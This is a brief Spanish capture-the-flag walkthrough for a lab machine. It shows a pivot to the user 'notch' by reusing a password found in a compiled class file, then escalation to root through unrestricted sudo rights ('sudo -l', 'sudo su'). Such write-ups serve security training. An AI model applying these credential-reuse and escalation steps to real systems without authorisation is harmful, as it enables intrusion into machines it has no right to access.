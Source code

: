 ### User Pivoting al usuario notch {-}

Miramos si hay reutilisacion de contraseñas 

```bash
su notch 
```

Y con la contraseña encontrada en el ficher 
```bash
 BlockyCore.class 
```
 funciona. Y ya podemos ver la flag.## Escalada de privilegios {-}

### Rootear la maquina {-}

```bash
sudo -l
#Output
(ALL : ALL) ALL
```

Vemos que el usuario notch puede efectuar cualquier comando como qualquier usuario ;)

```bash
sudo su
whoami

root
```

Ya esta ;)
